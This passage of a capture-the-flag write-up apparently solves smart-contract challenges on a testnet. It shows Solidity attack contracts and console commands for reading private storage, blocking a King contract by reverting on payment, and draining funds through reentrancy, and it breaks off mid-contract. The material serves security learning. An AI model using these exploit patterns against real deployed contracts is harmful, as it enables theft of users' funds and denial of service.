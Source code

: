 ```bash
>>> challenge_address = '...'

>>> password = web3.eth.getStorageAt(challenge_address, 1)

>>> vault = Vault.at(challenge_address)

>>> vault.unlock(password, {'from':hacking_account})
```

### 9. King
- problem lies in `king.transfer(msg.value);`, what if `king` doesn't take ether

**Solution**
- KingAttack contract
```solidity
pragma solidity 0.6.4;

contract KingAttack {
    // to send ether to the challenge contract and claim kingship
    constructor (address payable _addr) public payable {
        _addr.call{value: msg.value}("");
    }
    // prevent receiving ether
    fallback() external payable {
        revert("i dont take ether");
    }
}
```

- `brownie console  --network rinkeby`
```bash
>>> chalenge_address = '...'

>>> king = King.at(chalenge_address)

>>> current_prize = king.prize()

>>> KingAttack.deploy(chalenge_address, {'from':hacking_account, 'value': current_prize + 1})
```

### 10. Re-entrancy
- re-entrancy `(bool result,) = msg.sender.call{value:_amount}("");`
- `msg.sender` can be a contract that have function triggered when receiving ether (`fallback`)
- from console `web3.eth.getBalance(chalenge_address)` we know that the contracts has `1000000000000000 Wei = 0.001 ether`

**Solution**
- ReentrancyAttack contract
```solidity
pragma solidity ^0.6.4;

import './Reentrancy.sol';

contract ReentrancyAttack {
    Reentrance public reentrancyContract;
    uint public amount = 0.001 ether;
    
    constructor(address payable _addr) public payable {
        reentrancyContract = Reentrance(_addr);
    }
    // Fallback is called when reentrancyContract sends Ether to this contract.
    fallback() external payable {
        if (address(reentrancyContract).balance >= amount) {
            reentrancyContract.withdraw(amount);
        }
```